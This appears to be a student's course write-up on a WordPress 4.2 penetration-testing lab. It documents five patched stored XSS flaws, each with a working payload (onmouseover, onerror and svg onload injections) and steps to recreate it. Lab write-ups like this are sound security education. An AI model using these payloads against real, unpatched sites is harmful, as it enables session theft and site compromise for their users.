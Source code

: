 # Project 7 - WordPress Pentesting

Time spent: **12** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. (Required) Authenticated Stored Cross-site scripting
  - [x] Summary: 
     - Vulnerability types: XSS
     - Tested in version: 4.2
     - Fixed in version: 4.2.3
  - [x] GIF Walkthrough: 
     - <img src='Authenticated Stored Cross-site scripting.gif' title='Authenticated Stored Cross-site scripting' width='' alt='' />
  - [x] Steps to recreate: 
     - Create a new post using the text tab and paste in the following: ```<a href="[caption code=">]</a><a title=" onmouseover=alert('test') ">link</a>``` Click publish, then view post, move the cursor to the link line, the alert will pop up.
  - [x] Affected source code:
     - [Link 1](https://core.trac.wordpress.org/browser/branches/4.2/src/wp-includes/class-wp-editor.php?rev=33361)
2. (Required) Authenticated Stored Cross-Site Scripting via Image Filename
  - [x] Summary: 
      - Vulnerability types:XSS
      - Tested in version: 4.2
      - Fixed in version:  4.2.10
  - [x] GIF Walkthrough: 
      - <img src='Authenticated Stored Cross-Site Scripting via Image Filename.gif' title='Authenticated Stored Cross-Site Scripting via Image Filename' width='' alt='' />
  - [x] Steps to recreate: 
     - Go to the media section and create a new media,then upload a picture from your computer. Now paste in the following line into the title 
   	 ```filename<img src=a onerror=alert(1)>.png``` Then click on the "View attachment page", the alert will pop up.


  - [x] Affected source code:
      - [Link 2](https://core.trac.wordpress.org/browser/branches/4.2/src/wp-admin/includes/media.php)
3. (Required) Authenticated Shortcode Tags Cross-Site Scripting 
  - [x] Summary: 
     - Vulnerability types:XSS
     - Tested in version: 4.2
     - Fixed in version: 4.2.5
  - [x] GIF Walkthrough: 
     - <img src='Authenticated Shortcode Tags Cross-Site Scripting .gif' title='Authenticated Shortcode Tags Cross-Site Scripting ' width='' alt='' />
  - [x] Steps to recreate: 
     - Create a text post just like part 1 and paste the following code into the text tab ```Another test![caption width="1" caption='<a href="' ">]</a><a href="http://onMouseOver='alert(1)'">Click me</a>``` Click publish, then view post, move the cursor to any of the listed lines, the alert will pop up.
  - [x] Affected source code:
     - [Link 3](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
4. (Optional) Authenticated Stored Cross-Site Scripting in YouTube URL Embeds
  - [x] Summary: 
     - Vulnerability types:XSS
     - Tested in version: 4.2
     - Fixed in version: 4.2.13
  - [x] GIF Walkthrough: 
     - <img src='Authenticated Stored Cross-Site Scripting in YouTube URL Embeds.gif' title='Authenticated Stored Cross-Site Scripting in YouTube URL Embeds' width='' alt='' />
  - [x] Steps to recreate: 
     - Create a post that contains some kind of harmful embedded link; for example the following:``` [embed src='https://youtube.com/embed/123\x3csvg onload=alert(1)\x3e'][/embed]``` after we published the page,click view page,the alert will pop up.
  - [x] Affected source code:
     - [Link 4](https://github.com/WordPress/WordPress/commit/419c8d97ce8df7d5004ee0b566bc5e095f0a6ca8)
5. (Optional) Comment Cross-Site Scripting
  - [x] Summary: 
     - Vulnerability types:XSS
     - Tested in version: 4.2
     - Fixed in version: 4.2.1
  - [x] GIF Walkthrough: 
      - <img src='Comment Cross-Site Scripting.gif' title='Comment Cross-Site Scripting' width='' alt='' />
  - [x] Steps to recreate: 
     - Create a comment post using the following: ```<a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px AAAAAAAAAAAA...[64 KB]..AAA'></a>```The [64 KB] indicates that the size of the the text(A) has to be at least 64 KB long.After posting the comment,the alert will pop up.
  - [x] Affected source code:
     - [Link 5](https://core.trac.wordpress.org/changeset/32299)
## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Had trouble using --random-agent in Kali. I used --rua instead which gives the wanted outputs too.

## License

    Copyright [2018] [Hongjie Huang]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
